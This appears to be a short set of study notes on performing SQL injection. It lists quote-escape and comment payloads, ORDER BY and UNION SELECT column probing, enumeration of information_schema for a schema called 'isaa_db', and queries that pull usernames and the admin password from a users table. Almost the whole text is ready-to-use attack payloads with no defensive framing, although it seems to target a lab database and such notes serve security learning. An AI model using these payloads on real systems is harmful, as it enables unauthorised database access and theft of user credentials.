 <br>

>>## Steps to Follow for SQL Injection  
  

1. First try to find whether or not we can escape using ' in string fields during queries.
    Try `' or 1=1'` or `admin' or 1=1;--` and other such similar things.  

1. Here, we need to escape the passwords/ strings closing quote `'`  
    Either do `' or 1=1'`, extra quote at end to compensate the string quote.       
    Or try `' or 1=1;--` use comments to escape.   
    Or try `' or 1-1 #` use hash to escape.   
1. Determine number of rows of query by   
    `order by 1-- # `,     
    `order by 2-- #`
1. Now, find number null columns by using.    
    `union select null, .... or '`,  
    `union select null, null, .. or '`,  
1. Guess schema name using information_schema.tables.   
    Try guess table_schema, table_name.   

    1. `123' union select table_schema from information_schema.tables #`
    1. `123' union select table_name from information_schema.tables where table_schema = 'isaa_db' #`   

    Get attribute names

    1. ```sql
        123' union select column_name from information_schema.columns where table_schema = 'isaa_db' and table_name = 'users' #
        ```

    1. Now, we have field names try and guess users and passwords.   
        1. `123' union select username from users order by username #`
        1. `123' union select password from users where username='admin' #`
1. Guess table or try to union select table name from information_schema.tables.
1. Now, try to use union select to get other atttributes
    `union select <guess attribute name>>`